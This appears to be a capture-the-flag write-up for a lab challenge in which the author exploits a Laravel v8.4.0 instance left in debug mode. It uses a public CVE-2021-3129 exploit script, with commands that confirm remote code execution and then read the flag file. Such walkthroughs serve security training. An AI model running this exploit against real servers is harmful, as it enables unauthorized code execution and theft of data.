

# any

First, we have a URL for the target:
`https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p`

Let's examine it.



Not much going on, but there's a version number visible — and it's the latest release. Hitting `Ctrl+U` to view the source code revealed something interesting:


The app is still in debug mode, with another path pointing to the real running instance. Time to look for vulnerabilities for this version.

> Laravel **v8.4.0** is affected by several critical vulnerabilities, most notably an RCE flaw that triggers when debug mode is enabled.
> https://github.com/joshuavanderpoll/CVE-2021-3129

Nice ;)

After installing the exploit and its requirements, let's run it:

```bash
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p 
```


Target is vulnerable. Let's confirm code execution:

```bash
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p --force --exec "id"
```


I wanted to pop a shell, but didn't have time — so I grabbed the flag directly through the exploit instead.

\-\_-

```bash
❯ python3 CVE-2021-3129.py --host https://red.infinity.cyberwarfare.live/n7330234b66a452dbd91854cc722851p --force --exec "cat /flag.txt"
```


https://infinity.cyberwarfare.live/on_premise/onpremise_offensive/challenges/67e56221840203741a9c284d

